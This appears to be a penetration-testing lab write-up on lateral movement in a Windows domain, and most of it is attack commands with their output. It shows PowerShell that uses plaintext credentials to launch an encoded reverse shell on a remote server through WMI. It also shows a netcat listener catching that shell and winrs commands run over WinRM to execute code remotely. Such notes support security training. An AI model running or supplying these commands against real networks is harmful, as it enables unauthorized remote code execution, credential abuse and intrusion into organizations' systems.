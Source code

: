 # To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell. First, we'll encode the PowerShell reverse shell so we don't need to escape any special characters when inserting it as a WMI payload.

[pwsh-revsh-encode.py]
python3 pwsh-revsh-encode.py

# Go back to the Windows CLIENT74
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.195.73 -Credential $credential -SessionOption $Options
$command = '# Paste the encoded pwsh-revshell';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
nc -lvnp 443
PS C:\Windows\system32> hostname
FILES04
PS C:\Windows\system32> whoami
corp\jen

# We indeed managed to move laterally and gain privileges as the jen domain user on an internal server by abusing WMI features.

# ! Second Methods !
# WinRM can be employed for remote host management. WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

# WinRM is implemented in numerous built-in utilities, such as winrs (Windows Remote Shell).

# The winrs utility can be invoked by specifying the target host through the -r: argument and the username with -u: and password with -p. As a final argument, we want to specify the commands to be executed on the remote host
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
FILES04
corp\jen


[192.168.195.73]: PS C:\Users\jen\Documents> whoami
[192.168.195.73]: PS C:\Users\jen\Documents> hostname